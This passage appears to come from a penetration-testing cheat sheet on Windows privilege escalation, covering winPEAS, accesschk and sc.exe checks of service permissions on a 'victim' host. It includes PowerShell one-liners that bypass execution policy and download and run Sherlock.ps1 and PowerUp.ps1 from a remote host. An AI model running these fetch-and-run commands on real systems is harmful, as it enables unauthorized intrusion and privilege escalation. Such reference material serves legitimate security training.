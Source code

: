 * Winpeas

Optional: activate this command to see colours in a new command prompt

```cmd

REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1

```

* Start `winpeas.exe` on victim in Temp folder
* Different checks can be also checked separately like `winpeas.exe userinfo`


* Older systems

```powershell
# For older Systems use Sherlock
powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

```

### User Access Control rights check

UAC rights show if the user can read or write files.

Use accesscheck from sysinternals

`accesschk.exe /accepteula`

Check access

`.\accesschk.exe /accepteula -uwcqv user c:\`

### Services

Programs running in the background. If run under SYSTEM and compromised, they lead to priv esc.

Enumerate service with winpeas

`winpeas.exe quiet servicesinfo`


Configuration query
`sc.exe qc <name>`

Status query
`sc.exe query <name>`

Check rights of the user on service

```powershell
# use accesschk

PS C:\Temp> .\accesschk.exe /accepteula -ucqv user regsvc

R  regsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG # ask the config
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START # we can start
	SERVICE_STOP # we can stop
	READ_CONTROL

```
